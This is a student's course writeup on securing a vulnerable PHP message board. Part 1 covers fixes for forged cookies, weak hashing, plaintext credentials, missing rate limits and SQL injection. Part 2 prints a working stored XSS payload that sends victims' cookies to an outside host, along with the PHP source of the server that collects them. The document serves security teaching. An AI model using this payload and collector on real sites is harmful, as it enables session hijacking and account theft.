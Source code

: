 # Project Writeup

Bradley Rosenfeld - COS342, 11/14/15

## Part 1.

Overall this application was extremely vulnerable to all sorts of different attacks. Malicious users could run arbitrary SQL queries as well as insert XSS attacks into posts. I outlined below my response to the specific security policies laid out in the assignment.

1. The application tries to prevent access to messages by checking for the existence of a cookie that is created when the user is authenticated and logged in. Messages can be deleted by visiting a GET URL, the link to which is only visible when the user who is viewing the message has a cookie that matches the user who created the message. Even worse, the deletion action is vulnerable to SQL injection which would allow any user to delete any post or worse.

 Unfortunately, these security policies are not adequate to prevent unauthorized access. Malicious users can easily create a cookie called "hackme" which contains the username which they wish to target. The actual message deletion action doesn't check to see if the user is authorized, anyone can enter an arbitrary message ID which they wish to delete. 

 In order to fix this I implemented PHP sessions. Rather than sending the actual username and password as a cookie, a unique session ID is set which an attacker wouldn't be able to guess (they could snoop for it, but that is addressed later). The application then checks for the existence of the session ID and makes sure it is valid. Similarly, the deletion action will check to make sure the user is actually authorized and that the ID provided is valid.

2. The database only contains password hashes. The passwords are not hashed with a strong algorithm and they are not salted resulting in duplication of hashes.

 I fixed this by moving to a newer PHP function `password_hash()` which uses a much strong hashing function, handles salting, and enforces a "cost" which slows down direct brute force attacks on the server.

3. Attackers can easily snoop for user credentials for multiple reasons. Since the site is not HTTPS, usernames and passwords are sent via plaintext over the network. Furthermore, the username and hashed password are stored in cookies which are sent with every network request. It would be trivial to snoop for credentials.

 To fully fix this, I would need to enable HTTPS. But I did stop saving the username and password in a cookie. Instead I use a unique PHP session ID for further authentication.

4. Login attempts are not rate limited, making brute force attacks trivial.
 
 I fixed this by slowing down the number of attempts allowed per minute on a user. Once the user has exceeded 5 attempts, they have to wait a minute before trying again.

5. No password scheme was implemented, users could submit anything as a password.
 
 I implemented a password policy that says passwords must be at least 8 characters long, aren't dictionary words, and don't have too many letters, numbers, or special characters (must be a combination). This policy is enforced by my PHP Password class in the check() method.


I also solved a lot of the possible SQL injection attacks on the website by using `mysqli_real_escape_string()`. This function automatically escapes quotes and other special characters preventing attackers from running their own commands.

## Part 2

The attacker could post an image that fails to load, forcing JS to run. In this case, I wrote a simple script that sends the user's cookie to the remote server.

```
<img src="fdfjkdfjfkjdfdf.dfdjf" onerror="this.src=\'http://10.121.20.103/hackme-xss.php?c=\' + document.cookie">
```

If you're on the Taylor University network, you can view the result of this attack by visiting [10.121.20.103/hackme-xss.php](http://10.121.20.103/hackme-xss.php)

In order to fix this, I disabled all usage of HTML in messages by using the `htmlspecialchars` function in PHP when rendering the user submitted content.

The source code of the attacker server is as follows:

```
<?php
$secretFile = "/tmp/foo.txt";
if (isset($_GET['c'])) {
	$fh = fopen($secretFile, 'a') or die("can’t open file");	
	$stringData = $_GET['c']."\n";
	fwrite($fh, $stringData);
	fclose($fh);

	//Send an img
	header("Content-Type: image/png");
} else {
	header("Content-Type: text/plain");
	readfile($secretFile);
}
?>
```

